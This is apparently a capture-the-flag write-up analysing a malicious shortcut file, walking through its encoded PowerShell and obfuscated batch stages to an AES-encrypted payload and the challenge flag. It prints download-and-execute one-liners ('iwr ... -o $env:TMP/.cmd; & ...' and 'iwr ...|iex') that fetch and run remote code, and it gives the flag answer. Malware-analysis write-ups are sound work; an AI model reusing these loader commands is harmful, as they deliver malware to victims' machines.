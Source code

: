# Russian Roulette

## Solver : `Noderyos`

After extracting it, I used [LNK Parse](https://sourceforge.net/projects/jafat/files/lnk-parse/lnk-parse-1.0/) to extract the command runned `powershell -e aQB3AHIAIABpAHMALgBnAGQALwB6AGQANABoAFoAbgAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=` after converting it from base 64, it get `iwr is.gd/zd4hZn -o $env:TMP/.cmd;& $env:TMP/.cmd`

I saved the file to `stage0.bat` as it is batch file.

Using cat, i got valid code, but if I open it in my text editor, i got some random data.

The file tricks my editor with some bytes at start, I choped it off with `dd if=stage0.bat bs=1 skip=3 of=stage0-cleaned.bat`.

I then cleaned up the code by removing comments with some regex `^::.*\n`.

Then I manualy interpreted the code to replace some variables.

After, I runned `clean-1.py` to replace modulus by its value then `clean-2.py` that is a ultra minimalist batch interpreter to detect var because simply replacing doesnt work (`%fr%a%uw%` fr and uw are variables, by replace think that a is also a variable ....) to replace variables by its ASCII value (remove the stupid cmd tricks).

I removed comments again with this regex `^(::|rem).*\n`.

We can now see some random variables definitions, that are useless and a powershell command (`powershell -e aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==`).

By decoding from base64, we get `iwr is.gd/QRDyiP|iex`, I saved the url content to `stage1.ps1`, after reformating i saved the C# code to `stage2.cs`, this code is deciphering AES so I replicated on [Cyberchef](https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'Base64','string':'/a1Y%2Bfspq/NwlcPwpaT3irY2hcEytktuH7LsY%2BNlLew%3D'%7D,%7B'option':'Base64','string':'9sXGmK4q9LdYFdOp4TSsQw%3D%3D'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=Uk5vOFRaNTZSditFeVpXNzNOb2NGT0lpTkZmTDQ1dFh3MjRVb2dHZEhrc3dlYS9XaG5OaENOd2pRbjFhV2pmdw)

## Flag : `flag{4e4f266d44717ff3af8bd92d292b79ec}`
